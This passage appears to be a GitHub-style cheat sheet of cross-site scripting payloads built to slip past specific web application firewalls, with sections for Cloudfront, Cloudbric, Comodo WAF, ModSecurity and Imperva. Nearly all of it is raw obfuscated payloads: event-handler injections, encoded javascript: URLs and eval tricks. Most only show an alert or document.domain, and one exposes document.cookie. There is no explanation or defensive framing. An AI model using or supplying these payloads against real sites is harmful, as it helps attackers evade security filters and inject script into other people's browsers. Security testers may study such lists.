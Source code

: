 ```

<img ignored=() src=x onerror=prompt(1)>

<svg onx=() onload=(confirm)(1)>

<--`<img/src=` onerror=confirm``> --!>

<img src=x onerror="a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]](document.domain)">

<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x

'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

'"><img/src/onerror=.1|alert``>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

Function("\\x61\\x6c\\x65\\x72\\x74\\x28\\x31\\x29")();
```

2. Cloudfront

```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

<--`<img%2fsrc%3d` onerror%3dalert(document.domain)> --!>

"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
```

3. Cloudbric

```
<a69/onclick=[1].findIndex(alert)>pew
```

4. Comodo WAF

```
<input/oninput='new Function`confir\\u006d\\`0\\``'>

<p/ondragstart=%27confirm(0)%replace(/.+/,eval)%20draggable=True>dragme
```

5. ModSecurity

```
<a href="jav%0Dascript&colon;alert(1)">
```

6. Imperva

```
<input id='a'value='global'><input id='b'value='E'><input 'id='c'value='val'><input id='d'value='aler'><input id='e'value='t(documen'><input id='f'value='t.domain)'><svg+onload[\\r\\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>

<x/onclick=globalThis&lsqb;'\\u0070r\\u006f'+'mpt']&lt;)>clickme

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click

<a69/onclick=write&lpar;&rpar;>pew

<details/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"/open>

<svg onload\\r\\n=$.globalEval("al"+"ert()");>
```